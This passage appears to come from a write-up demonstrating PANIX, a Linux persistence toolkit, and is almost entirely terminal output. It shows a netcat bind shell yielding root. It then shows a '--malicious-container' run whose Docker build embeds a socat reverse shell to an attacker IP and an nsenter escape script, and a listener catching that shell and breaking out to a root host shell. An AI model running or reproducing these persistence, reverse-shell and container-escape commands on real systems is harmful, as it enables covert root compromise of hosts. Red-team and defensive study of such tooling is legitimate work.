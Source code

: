 ```
❯ nc -nv 192.168.211.130 9001
(UNKNOWN) [192.168.211.130] 9001 (?) open
whoami
root
```
The same goes for mechanisms that have additional built-in features such as the Docker persistence mechanism, with a built-in root host escape:
```
ruben@ubuntu2204:~$ sudo ./panix.sh --malicious-container --ip 192.168.211.131 --port 330
[+] Building 10.4s (9/9) FINISHED                                                                                                                                            docker:default
 => [internal] load build definition from Dockerfile                                                                                                                                   0.0s
 => => transferring dockerfile: 722B                                                                                                                                                   0.0s
 => [internal] load metadata for docker.io/library/alpine:latest                                                                                                                       2.1s
 => [internal] load .dockerignore                                                                                                                                                      0.0s
 => => transferring context: 2B                                                                                                                                                        0.0s
 => [1/5] FROM docker.io/library/alpine:latest@sha256:b89d9c93e9ed3597455c90a0b88a8bbb5cb7188438f70953fede212a0c4394e0                                                                 0.8s
 => => resolve docker.io/library/alpine:latest@sha256:b89d9c93e9ed3597455c90a0b88a8bbb5cb7188438f70953fede212a0c4394e0                                                                 0.0s
 => => sha256:b89d9c93e9ed3597455c90a0b88a8bbb5cb7188438f70953fede212a0c4394e0 1.85kB / 1.85kB                                                                                         0.0s
 => => sha256:dabf91b69c191a1a0a1628fd6bdd029c0c4018041c7f052870bb13c5a222ae76 528B / 528B                                                                                             0.0s
 => => sha256:a606584aa9aa875552092ec9e1d62cb98d486f51f389609914039aabd9414687 1.47kB / 1.47kB                                                                                         0.0s
 => => sha256:ec99f8b99825a742d50fb3ce173d291378a46ab54b8ef7dd75e5654e2a296e99 3.62MB / 3.62MB                                                                                         0.4s
 => => extracting sha256:ec99f8b99825a742d50fb3ce173d291378a46ab54b8ef7dd75e5654e2a296e99                                                                                              0.2s
 => [2/5] RUN apk add --no-cache bash socat sudo util-linux procps                                                                                                                     4.4s
 => [3/5] RUN adduser -D lowprivuser                                                                                                                                                   0.6s
 => [4/5] RUN echo '#!/bin/bash' > /usr/local/bin/entrypoint.sh && echo 'while true; do /bin/bash -c "socat exec:\"/bin/bash\",pty,stderr,setsid,sigint,sane tcp:192.168.211.131:330"  0.8s
 => [5/5] RUN echo '#!/bin/bash' > /usr/local/bin/escape.sh && echo 'sudo nsenter -t 1 -m -u -i -n -p -- su -' >> /usr/local/bin/escape.sh && chmod +x /usr/local/bin/escape.sh && ec  0.8s
 => exporting to image                                                                                                                                                                 0.6s
 => => exporting layers                                                                                                                                                                0.6s
 => => writing image sha256:b36eb0d13ee1a0c57c3e6a1ee0255ef474986f44d65b177c539b2ffb1d248790                                                                                           0.0s
 => => naming to docker.io/library/malicious-container                                                                                                                                 0.0s
86ce6b00e872bb8c21d0dae21e747e830bb70b44ab7946558e563bf7f4b626ef
[+] Persistence through malicious Docker container complete.
[+] To escape the container with root privileges, run '/usr/local/bin/escape.sh'.
```
Which shows you exactly how to escape the container, and get access to the host.
```
❯ nc -nvlp 330
listening on [any] 330 ...
connect to [192.168.211.131] from (UNKNOWN) [192.168.211.130] 43400
86ce6b00e872:/$ /usr/local/bin/escape.sh
/usr/local/bin/escape.sh
root@ubuntu2204:~#
```